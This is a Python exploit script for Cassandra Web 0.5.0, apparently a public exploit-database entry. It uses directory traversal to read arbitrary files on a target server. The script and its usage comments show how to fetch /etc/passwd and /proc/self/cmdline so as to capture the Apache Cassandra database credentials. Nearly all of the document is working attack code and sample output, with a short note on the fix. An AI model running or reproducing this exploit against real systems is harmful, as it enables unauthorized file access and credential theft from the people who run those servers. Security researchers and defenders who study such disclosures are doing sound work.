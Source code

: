 EXP
---

    # Exploit Title: Cassandra Web 0.5.0 - Remote File Read
    # Date: 12-28-2020
    # Exploit Author: Jeremy Brown
    # Vendor Homepage: https://github.com/avalanche123/cassandra-web
    # Software Link: https://rubygems.org/gems/cassandra-web/versions/0.5.0
    # Version: 0.5.0
    # Tested on: Linux

    #!/usr/bin/python
    # -*- coding: UTF-8 -*-
    #
    # cassmoney.py
    #
    # Cassandra Web 0.5.0 Remote File Read Exploit
    #
    # Jeremy Brown [jbrown3264/gmail]
    # Dec 2020
    #
    # Cassandra Web is vulnerable to directory traversal due to the disabled
    # Rack::Protection module. Apache Cassandra credentials are passed via the
    # CLI in order for the server to auth to it and provide the web access, so
    # they are also one thing that can be captured via the arbitrary file read.
    #
    # Usage
    # > cassmoney.py 10.0.0.5 /etc/passwd
    # root:x:0:0:root:/root:/bin/bash
    # daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    # bin:x:2:2:bin:/bin:/usr/sbin/nologin
    # ...
    #
    # > cassmoney.py 10.0.0.5 /proc/self/cmdline
    # /usr/bin/ruby2.7/usr/local/bin/cassandra-web--usernameadmin--passwordP@ssw0rd
    #
    # (these creds are for auth to the running apache cassandra database server)
    #
    # Fix
    # - fixed in github repo
    # - v0.6.0 / ruby-gems when available
    # (still recommended to containerize / run this in some sandbox, apparmor, etc)
    #

    import os
    import sys
    import argparse
    import requests
    import urllib.parse

    SIGNATURE = 'cassandra.js'

    #
    # /var/lib/gems/2.7.0/gems/cassandra-web-0.5.0/app/public
    #
    DT = '../'
    DT_NUM = 8

    class CassMoney(object):
        def __init__(self, args):
            self.target = args.target
            self.file = args.file
            self.port = args.port
            self.force = args.force
            self.number = args.number

        def run(self):
            target = "http://" + self.target + ':' + str(self.port)

            payload = urllib.parse.quote_plus(DT * self.number + self.file)

            try:
                deskpop = requests.get(target)
            except Exception as error:
                print("Error: %s" % error)
                return -1

            if(SIGNATURE not in deskpop.text and self.force == False):
                print("Target doesn't look like Cassandra Web, aborting...")
                return -1

            try:
                req = requests.get(target + '/' + payload)
            except:
                print("Failed to read %s (perm denied likely)" % self.file)
                return -1

            if(SIGNATURE in req.text):
                print("Failed to read %s (bad path?)" % self.file)
                return -1

            if(len(req.text) == 0):
                print("Server returned nothing for some reason")
                return 0

            print("\n%s" % req.text)

            return 0

    def arg_parse():
        parser = argparse.ArgumentParser()

        parser.add_argument("target",
                            type=str,
                            help="Cassandra Web Host")

        parser.add_argument("file",
                            type=str,
                            help="eg. /etc/passwd, /proc/sched_debug + /proc/<cass-web-pid>/cmdline")

        parser.add_argument("-p",
                            "--port",
                            type=int,
                            default=3000,
                            help="Cassandra Web Port")

        parser.add_argument("-f",
                            "--force",
                            default=False,
                            action='store_true',
                            help="Run the payload even if server isn't Cassandra Web")

        parser.add_argument("-n",
                            "--number",
                            type=int,
                            default=DT_NUM,
                            help="Adjust the number of dot-dot-slash")

        args = parser.parse_args()

        return args

    def main():
        args = arg_parse()

        cm = CassMoney(args)

        result = cm.run()

        if(result > 0):
            sys.exit(-1)

    if(__name__ == '__main__'):
        main()